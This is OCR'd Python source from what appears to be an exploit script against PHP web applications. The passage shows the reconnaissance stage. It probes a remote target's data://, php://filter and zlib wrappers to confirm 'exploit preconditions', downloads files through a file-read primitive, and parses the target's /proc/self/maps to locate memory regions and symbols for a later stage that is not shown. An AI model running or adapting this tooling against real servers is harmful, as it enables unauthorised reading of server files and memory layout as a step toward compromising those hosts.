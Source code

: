 ~~~ python
            print("--------------------")
            print(f"Expected test string: {text}")
            print(f"Got: {result}")
            print("--------------------")
            failure("If your code works fine, it means that the [i]data://[/] wrapper does not work")

        msg_info("The [i]data://[/] wrapper works")

        text = 'GIF89a' + tf.random.string(50)
        base64 = b64(text.encode(), misalign=True).decode()
        path = f"php://filter//resource=data:text/plain;base64,{base64}"
        if not check_token(text, path):
            failure("The [i]php://filter/[/] wrapper does not work")

        msg_info("The [i]php://filter/[/] wrapper works")

        text = 'GIF89a' + tf.random.string(50)
        base64 = b64(compress(text.encode()), misalign=True).decode()
        path = f"php://filter/zlib.inflate/resource=data:text/plain;base64,{base64}"

        if not check_token(text, path):
            failure("The [i]zlib[/] extension is not enabled")

        msg_info("The [i]zlib[/] extension is enabled")

        msg_success("Exploit preconditions are satisfied")

    def get_file(self, path: str) -> bytes:
        with msg_status(f"Downloading [i]{path}[/]..."):
            return self.remote.download(path)

    def get_regions(self) -> list[Region]:
        """Obtains the memory regions of the PHP process by querying /proc/self/maps."""
        maps = self.remote.data_decode(self.get_file("/proc/self/maps"))
       
        PATTERN = re.compile(
            r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"
        )
        regions = []
        for region in table.split(maps, strip=True):
            if match := PATTERN.match(region):
                start = int(match.group(1), 16)
                stop = int(match.group(2), 16)
                permissions = match.group(3)
                path = match.group(4)
                if "/" in path or "[" in path:
                    path = path.rsplit(" ", 1)[-1]
                else:
                    path = ""
                current = Region(start, stop, permissions, path)
                regions.append(current)
            else:
                failure("Unable to parse memory mappings")

        self.log.info(f"Got {len(regions)} memory regions")

        return regions

    def get_symbols_and_addresses(self) -> None:
        """Obtains useful symbols and addresses from the file read primitive."""
        regions = self.get_regions()

~~~